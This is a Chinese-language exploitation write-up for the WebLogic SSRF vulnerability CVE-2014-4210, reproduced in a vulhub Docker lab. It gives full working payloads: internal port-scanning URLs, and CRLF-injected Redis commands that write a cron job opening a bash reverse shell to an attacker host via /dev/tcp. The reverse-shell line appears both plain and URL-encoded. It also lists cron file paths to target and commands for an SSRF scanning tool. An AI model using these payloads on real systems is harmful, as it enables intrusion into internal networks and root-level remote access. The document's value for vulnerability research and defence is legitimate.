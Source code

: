 # Weblogic SSRF漏洞 CVE-2014-4210

# Weblogic SSRF漏洞 CVE-2014-4210

## 漏洞描述

Weblogic中存在一个SSRF漏洞，利用该漏洞可以发送任意HTTP请求，进而攻击内网中redis、fastcgi等脆弱组件，此漏洞可通过HTTP协议利用，未经身份验证的远程攻击者可利用此漏洞影响受影响组件的机密性

## 漏洞影响

```
Oracle WebLogic Server 10.0.2.0
Oracle WebLogic Server 10.3.6.0
```

## 环境搭建

```plain
git clone https://github.com/vulhub/vulhub.git
cd vulhub/weblogic/ssrd
docker-compose up -d
```

访问 http://xxx.xxx.xxx.xxx:7001 正常即可

![img](/images/202202091225140.png)

## 漏洞复现

出现漏洞的 URL为 : http://xxx.xxx.xxx.xxx:7001/uddiexplorer/SearchPublicRegistries.jsp

![img](/images/202202091225365.png)



使用 payload 进行探测, 将探测的位置写在 operator参数中

注意需要知道内网 IP

```plain
http://xxx.xxx.xxx.xxx:7001/uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://xxx.xxx.xxx.xxx:7001
```

通过查看报错内容来进行判断

![img](/images/202202091225296.png)

存在的报错内容如图，关键字为 **404**, 例如把 **operator** 参数改成 [**http://xxx.xxx.xxx.xxx:7000**](http://xxx.xxx.xxx.xxx:7000) 这样不存在的则报错内容如下图

![img](/images/202202091225336.png)



通过这样的方法就可以探测内网的开放端口情况，例如内网中有一台主机 **IP：172.19.0.2** 开启了 **6379端口的redis服务**

![img](/images/202202091225290.png)



如果访问的非http协议，则会返回**did not have a valid SOAP content-type**，这样通过错误的不同，即可探测内网状态。

Weblogic的SSRF有一个比较大的特点，其虽然是一个“GET”请求，但是我们可以通过传入`%0a%0d`来注入换行符，而某些服务（如redis）是通过换行符来分隔每条命令，也就说我们可以通过该SSRF攻击内网中的redis服务器。

发送三条redis命令，将弹shell脚本写入**/etc/crontab** 中：

```shell
set 1 "\n\n\n\n* * * * * root bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/9999 0>&1\n\n\n\n"
config set dir /etc/
config set dbfilename crontab
save
```

接着再将请求进行 **url编码**,

注意，换行符是“\r\n”，也就是“%0D%0A”

```shell
test%0D%0A%0D%0Aset%201%20%22%5Cn%5Cn%5Cn%5Cn*%20*%20*%20*%20*%20root%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2Fxxx.xxx.xxx.xxx%2F9999%200%3E%261%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave%0D%0A%0D%0Aaaa
```

发送payload

```shell
http://xxx.xxx.xxx.xxx:7001/uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://172.19.0.2:6379/test%0D%0A%0D%0Aset%201%20%22%5Cn%5Cn%5Cn%5Cn*%20*%20*%20*%20*%20root%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F172.19.0.3%2F9999%200%3E%261%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave%0D%0A%0D%0Aaaa
```

发送后监听 **172.19.0.3 9999端口** 等待反弹shell

![img](/images/202202091225298.png)

最后补充一下，可进行利用的cron有如下几个地方：

- /etc/crontab 这个是肯定的

- /etc/cron.d/* 将任意文件写到该目录下，效果和crontab相同，格式也要和/etc/crontab相同。漏洞利用这个目录，可以做到不覆盖任何其他文件的情况进行弹shell。
- /var/spool/cron/root centos系统下root用户的cron文件
- /var/spool/cron/crontabs/root debian系统下root用户的cron文件

## 漏洞POC

[GitHub脚本 CVE-2014-4210+Redis未授权访问](https://github.com/NoneNotNull/SSRFX)

```shell
存活扫描:
python SSRFX.py --url http://example.com/uddiexplorer/SearchPublicRegistries.jsp --app weblogic --network 172.16.5.0/24 --type livedetect

端口扫描:
python SSRFX.py --url http://example.com/uddiexplorer/SearchPublicRegistries.jsp --app weblogic --network 172.16.5.0/24 --type portscan
```

![img](/images/202202091225535.png)

